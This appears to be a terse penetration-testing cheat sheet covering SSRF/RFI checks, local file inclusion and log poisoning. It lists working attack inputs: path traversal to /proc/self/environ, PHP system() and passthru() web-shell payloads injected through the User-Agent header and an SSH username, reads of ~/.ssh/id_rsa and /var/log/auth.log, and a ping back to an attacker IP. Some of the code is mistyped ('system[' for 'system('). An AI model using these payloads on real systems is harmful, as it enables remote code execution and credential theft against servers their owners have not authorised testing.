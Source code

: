 ### check for ssrf or RFI 

```
kali
sudo tcpdump icmp -i tun0

Webserver
python3 <webserver-url> -c "ping -c4 <attacker-ip>"
``` 

### LFI
```
file=../../../../../proc/self/environ

change user-agent: <?php system[$_GET['cmd']); ?>

<url>/console?file=../../../../../proc/self/environ?cmd=id
```
```
/home/user/.ssh/id_rsa
/var/log/auth.log
try ssh poisinong
nc -nv <ip> 22
omgthissofun/<?php passthru($_GET['cmd']); ?>          # this will refeclt in /var/log/auth.log
```
### PDF to text 
```
pdftotext *.pdf
```
